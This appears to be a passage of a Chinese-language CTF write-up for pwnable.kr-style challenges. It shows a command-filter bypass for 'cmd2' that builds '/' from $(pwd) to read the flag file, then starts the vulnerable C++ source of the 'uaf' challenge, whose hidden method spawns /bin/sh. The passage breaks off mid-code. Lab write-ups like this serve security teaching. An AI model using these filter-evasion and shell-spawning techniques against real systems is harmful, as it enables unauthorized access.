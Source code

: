 这次删除了所有环境变量并覆盖了 `PATH`，同时增强了对命令行参数的过滤，关键在于 `/` 被过滤了，不能直接写路径。

那么我们就需要执行系统命令来构造出 `/`，很容易想到 `pwd` 命令。我们先 `cd /`，此时运行 `pwd` 可以看到输出就是 `/`。

仿照 cmd1：

```shell
$ /home/cmd2/cmd2 "$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*"
```

但是这样没有用，猜想是因为 `$(pwd)` 先被替换成 `/` 了，因为双引号不会忽略 `$`。我们用单引号就可以防止这一替换。

```shell
$ /home/cmd2/cmd2 '$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*'
```

## uaf

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
    virtual void give_shell(){
        system("/bin/sh");
    }
protected:
    int age;
    string name;
public:
    virtual void introduce(){
        cout <<"My name is " << name << endl;
        cout <<"I am "<< age <<" years old" << endl;
    }
};

class Man: public Human{
public:
    Man(string name, int age){
        this->name = name;
        this->age = age;
        }
        virtual void introduce(){
        Human::introduce();
                cout <<"I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout <<"I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
    Human* m = new Man("Jack", 25);
```